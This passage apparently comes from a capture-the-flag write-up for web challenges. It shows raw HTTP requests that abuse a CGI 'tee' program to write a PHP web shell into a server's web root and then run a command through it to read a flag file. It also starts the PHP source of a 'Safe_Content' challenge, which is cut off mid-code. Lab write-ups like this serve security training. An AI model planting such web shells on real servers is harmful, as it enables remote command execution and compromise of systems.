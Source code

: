 ```
GET /cgi-bin/tee?/var/www/public/test.php HTTP/1.1
Host: localhost:1337
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 34

<?php system($_GET["cmd"]); ?>

GET /test.php?cmd=cat%20/flag.txt HTTP/1.1
Host: localhost:1337
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 34
```

![](../assets/2024/tfcctf/funny1.png)


### Safe_Content [Web | Medium]

This it the only challenge I solved. The challenge is same like surfing challenge which accepts URL as input. But the twist here is that while URL parsing it accepts the URL only if the host part of the URL contains `localhost`. The entire application source code is as follows.

```
<?php

    function isAllowedIP($url, $allowedHost) {
        $parsedUrl = parse_url($url);
        
        if (!$parsedUrl || !isset($parsedUrl['host'])) {
            return false;
        }
        
        return $parsedUrl['host'] === $allowedHost;
    }

    function fetchContent($url) {
        $context = stream_context_create([
            'http' => [
                'timeout' => 5 // Timeout in seconds
            ]
        ]);

        $content = @file_get_contents($url, false, $context);
```